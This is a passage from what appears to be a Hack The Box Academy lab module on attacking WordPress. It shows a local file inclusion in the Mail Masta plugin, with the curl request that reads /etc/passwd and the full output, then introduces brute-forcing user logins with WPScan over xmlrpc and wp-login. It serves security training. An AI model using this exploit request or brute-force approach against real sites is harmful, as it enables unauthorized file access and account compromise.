 Let's verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

**LFI using Browser**

&#x20;  ![](https://academy.hackthebox.com/storage/modules/17/WP\_lfi.png)

***

We can also validate this vulnerability using cURL on the command line.

**LFI using cURL**

&#x20; Exploiting a Vulnerable Plugin

```shell-session
AbdulrahmanTamim@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

We have successfully validated the vulnerability using the data generated in the `WPScan` report. Now let's try it out ourselves!



## Attacking WordPress Users

***

### WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.
